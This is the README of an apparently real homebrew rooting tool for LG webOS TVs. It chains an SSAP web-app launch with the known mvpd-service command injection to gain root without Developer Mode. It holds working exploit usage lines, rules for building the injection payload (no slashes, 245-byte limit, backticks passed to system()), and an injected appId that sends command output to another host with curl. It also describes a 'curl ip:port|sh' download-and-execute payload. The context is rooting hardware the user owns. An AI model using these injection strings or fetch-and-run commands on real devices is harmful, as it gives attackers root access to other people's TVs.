

# mvpd-autoroot-webapp

Root delivery for LG webOS TVs **without Developer Mode**.

Same `mvpd-service` vulnerability as [mvpd-autoroot](https://github.com/throwaway96/mvpd-autoroot),
but the trigger is delivered through a temporary web app instead of a Developer Mode SSH shell.
`mvpd-autoroot` needs a root shell to start from; this does not.

This is not a new vulnerability. It packages a different *delivery method* for the known
`mvpd-service` command injection used by [mvpd-autoroot](https://github.com/throwaway96/mvpd-autoroot):
instead of requiring Developer Mode plus an SSH root shell, it launches a temporary web app over
SSAP and triggers the injection from its page through `PalmServiceBridge`.

Tested on an LG OLED55B6V (`05.70.55`, webOS `3.4.3-570913`, SDK `3.4.0`, OTA `HE_DTV_W16K_AFADABAA`,
board `K2L_DVB_EU`).

## How it works



Two facts make the chain work:

1. `ssap://webapp/launchWebApp` accepts an `appInfo` object from the requesting client, and the
   `trustLevel: "default"` field is what makes the hosted page receive `PalmSystem` /
   `PalmServiceBridge` (`type` alone does nothing). See `docs/WRITEUP.md` for the isolated test.
2. `vendor/addMvpd` and `vendor/removeMvpd` are in the **public** permission group of
   `api-permissions.d/compat.api.json`, so a public bridge client can call them. `removeMvpd` builds
   `rm -rf /var/lib/mvpd/<appId>` and passes it to `system()`.

## Requirements

- A TV you own, reachable on the LAN (SSAP TLS port 3001 open).
- One-time SSAP pairing, accepted with the remote.
- Python 3.8+ on the attacking machine (standard library only).
- No LG Developer Mode app, no account.

## Usage

Proof of execution (prints `uid=0(root)` from the TV):

```sh
python3 exploit.py --tv 192.0.2.10 --local-ip 192.0.2.20 --payload payloads/id.sh
```

Key-only root SSH, using the dropbear bundled with Homebrew Channel:

```sh
python3 exploit.py --tv 192.0.2.10 --local-ip 192.0.2.20 \
    --payload payloads/ssh.sh --ssh-pubkey ~/.ssh/id_ed25519.pub
ssh root@192.0.2.10
```

Persistent root and Homebrew Channel (runs upstream `mvpd-autoroot` unmodified):

```sh
python3 exploit.py --tv 192.0.2.10 --local-ip 192.0.2.20 --payload payloads/autoroot.sh
```

Raw `appId` mode, for research:

```sh
python3 exploit.py --tv 192.0.2.10 --local-ip 192.0.2.20 \
    --appid 'A`id|curl -s -d@- 192.0.2.20:8080`'
```

The first run asks for pairing on the TV. The client key is stored in `client.key`
(`--key-file`), and changing `--manifest-app-id` forces a new pairing.

## Which versions does it work on?

The chain has five independent links (launchWebApp, requester `trustLevel`, bridge, mvpd service,
`system()` path). Only the last two are tied to the firmware version. See
`docs/COMPATIBILITY.md` for the evidence and the matrix.

Probe a live TV before trying anything:

```sh
python3 probe.py --tv 192.0.2.10 --local-ip 192.0.2.20
python3 probe.py --tv 192.0.2.10 --local-ip 192.0.2.20 --mutating
```

Probe an extracted firmware offline:

```sh
python3 tools/check_firmware.py /path/to/extracted/root
```

Known: firmware `05.70.55` (release `3.4.3-570913`, W16K) works. Upstream documents webOS 1–3.4.2
and reports the mvpd service absent from 3.5 onward; the real upper bound is not 3.4.2, since this
TV reports 3.4.3 and is vulnerable.

## Vector constraints

- **No `/` in the appId**: the string is used as a single path component under `/var/lib/mvpd/`.
  A slash makes `mkdir()`/`access()` fail before `system()` is reached.
- **At most 245 bytes**: `addMvpd` copies the appId with `strcpy` into a 245-byte stack buffer.
  Longer input smashes the stack and kills the service (`Message status unknown.` in LS2).
- Backticks, `|`, `$()`, spaces are accepted by `mkdir()` and interpreted by `system()`.
- `curl host:port` works without a scheme, which keeps the URL slash-free. `nc` is not required.

`exploit.py` builds the payload appId itself (`A` + `` `curl -s <ip>:<port>|sh` ``), so the script
never contains a slash.

## Security notes

- Use only on hardware you own. This gives full root access to the TV.
- The payload is served over plain HTTP, unauthenticated, on the LAN for the duration of the run.
- Pairing is an explicit user action on the TV; it is not remote-unauthenticated.
- `payloads/autoroot.sh` downloads and executes upstream code (AGPL). Verify it if you care.

## Repository layout

```
exploit.py            orchestration: pairing, HTTP harness, launch, trigger, close
probe.py              read-only / mutating compatibility probe for a live TV
webos_ssap.py         minimal SSAP client (TLS WebSocket + register + request)
page/bridge.html      page that receives PalmServiceBridge and calls mvpd-service
payloads/id.sh        proof of execution
payloads/ssh.sh       key-only root SSH (requires Homebrew Channel)
payloads/autoroot.sh  upstream mvpd-autoroot from a root context
tools/tv-ssh-up.sh    convenience wrapper: bring SSH up after a reboot
docs/WRITEUP.md       technical details, offsets, evidence, novelty discussion
docs/COMPATIBILITY.md five links, known data points, how to test a device or a firmware
docs/ROLLBACK.md      how to remove every change
tools/check_firmware.py  static markers in an extracted firmware tree
```

## Credits and prior art

- [throwaway96/mvpd-autoroot](https://github.com/throwaway96/mvpd-autoroot) — the vulnerability,
  the root chain and Homebrew Channel install (AGPL-3.0).
- [throwaway96/slopbro](https://github.com/throwaway96/slopbro) — SSAP client reference.
- [webosbrew](https://github.com/webosbrew) — Homebrew Channel, dropbear packaging, update blocking.
- The `mvpd-service` behaviour was verified against the extracted firmware for this TV.

Not affiliated with LG Electronics. `mvpd-service` and the `webapp` SSAP interface are LG components.

## License

AGPL-3.0-or-later. See `LICENSE`.
